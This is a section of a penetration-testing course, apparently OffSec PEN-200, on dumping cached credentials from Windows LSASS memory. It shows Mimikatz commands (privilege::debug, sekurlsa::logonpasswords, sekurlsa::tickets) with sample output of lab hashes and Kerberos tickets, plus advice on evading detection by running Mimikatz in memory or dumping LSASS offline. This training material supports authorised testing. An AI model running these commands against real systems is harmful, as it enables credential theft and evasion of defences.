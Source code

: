 To lay the foundation for cached storage credential attacks, we must first discuss the various password hashes used with Kerberos and show how they are stored.

Since Microsoft's implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space.

If we gain access to these hashes, we could crack them to obtain the cleartext password or reuse them to perform various actions.

Although this is the end goal of our AD attack, the process is not as straightforward as it sounds. Since the LSASS process is part of the operating system and runs as SYSTEM, we need SYSTEM (or local administrator) permissions to gain access to the hashes stored on a target.

Because of this, in order to target the stored hashes, we often have to start our attack with a local privilege escalation. To makes things even more tricky, the data structures used to store the hashes in memory are not publicly documented and they are also encrypted with an LSASS-stored key.

Nevertheless, since this is a huge attack vector against Windows and Active Directory, several tools have been created to extract the hashes, the most popular of which is Mimikatz.

Let's try to use Mimikatz to extract hashes on our Windows 10 system.

In the following example, we will run Mimikatz as a standalone application. However, due to the mainstream popularity of Mimikatz and well-known detection signatures, consider avoiding using it as a standalone application. For example, execute Mimikatz directly from memory using an injector like PowerShell or use a built-in tool like Task Manager to dump the entire LSASS process memory, move the dumped data to a helper machine, and from there, load the data into Mimikatz.

Since the Offsec domain user is a local administrator, we are able to launch a command prompt with elevated privileges. From this command prompt, we will run mimikatz and enter privilege::debug to engage the _SeDebugPrivlege_ privilege, which will allow us to interact with a process owned by another account.

Finally, we'll run sekurlsa::logonpasswords to dump the credentials of all logged-on users using the Sekurlsa module.

This should dump hashes for all users logged on to the current workstation or server, _including remote logins_ like Remote Desktop sessions.

```
C:\Tools\active_directory> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 291668 (00000000:00047354)
Session           : Interactive from 1
User Name         : Offsec
Domain            : CORP
Logon Server      : DC01
Logon Time        : 08/02/2018 14.23.26
SID               : S-1-5-21-1602875587-2787523311-2599479668-1103
        msv :
         [00000003] Primary
         \* Username : Offsec
         \* Domain   : CORP
         \* NTLM     : e2b475c11da2a0748290d87aa966c327
         \* SHA1     : 8c77f430e4ab8acb10ead387d64011c76400d26e
         \* DPAPI    : 162d313bede93b0a2e72a030ec9210f0
        tspkg :
        wdigest :
         \* Username : Offsec
         \* Domain   : CORP
         \* Password : (null)
        kerberos :
         \* Username : Offsec
         \* Domain   : CORP.COM
         \* Password : (null)
...
```

The output snippet above shows all credential information stored in LSASS for the domain user Offsec, including cached hashes.

Notice that we have two types of hashes highlighted in the output above. This will vary based on the functional level of the AD implementation. For AD instances at a functional level of Windows 2003, NTLM is the only available hashing algorithm. For instances running Windows Server 2008 or later, both NTLM and SHA-1 (a common companion for AES encryption) may be available. On older operating systems like Windows 7, or operating systems that have it manually set, WDigest,[9](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/cached-credential-storage-and-retrieval#fn9) will be enabled. When WDigest is enabled, running Mimikatz will reveal cleartext password alongside the password hashes.

Armed with these hashes, we could attempt to crack them and obtain the cleartext password.

A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets. As already discussed, we know that Kerberos TGT and service tickets for users currently logged on to the local machine are stored for future use. These tickets are also stored in LSASS and we can use Mimikatz to interact with and retrieve our own tickets and the tickets of other local users.

For example, in Listing 30, we use Mimikatz to show the Offsec user's tickets that are stored in memory:

```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 291668 (00000000:00047354)
Session           : Interactive from 1
User Name         : Offsec
Domain            : CORP
Logon Server      : DC01
Logon Time        : 08/02/2018 14.23.26
SID               : S-1-5-21-1602875587-2787523311-2599479668-1103

 * Username : Offsec
 * Domain   : CORP.COM
 * Password : (null)

Group 0 - Ticket Granting Service
 [00000000]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : cifs ; dc01 ; @ CORP.COM
   Target Name  (02) : cifs ; dc01 ; @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   Session Key       : 0x00000012 - aes256_hmac
     d062a1b8c909544a7130652fd4bae4c04833c3324aa2eb1d051816a7090a0718
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

Group 1 - Client Ticket ?

Group 2 - Ticket Granting Ticket
 [00000000]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Target Name  (--) : @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM ( $$Delegation Ticket$$ )
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwa
   Session Key       : 0x00000012 - aes256_hmac
     3b0a49af17a1ada1dacf2e3b8964ad397d80270b71718cc567da4d4b2b6dc90d
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
 [00000001]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM ( CORP.COM )
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forward
   Session Key       : 0x00000012 - aes256_hmac
     8f6e96a7067a86d94af4e9f46e0e2abd067422fe7b1588db37c199f5691a749c
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

> Listing 30 - Extracting Kerberos tickets with mimikatz

The output shows both a TGT and a TGS. Stealing a TGS would allow us to access only particular resources associated with those tickets. On the other side, armed with a TGT ticket, we could request a TGS for specific resources we want to target within the domain. We will discuss how to leverage stolen or forged tickets later on in the module.

In addition to these functions, Mimikatz can also export tickets to the hard drive and import tickets into LSASS, which we will explore later. Mimikatz can even extract information related to authentication performed through smart card and PIN, making this tool a real cached credential "Swiss Army knife"!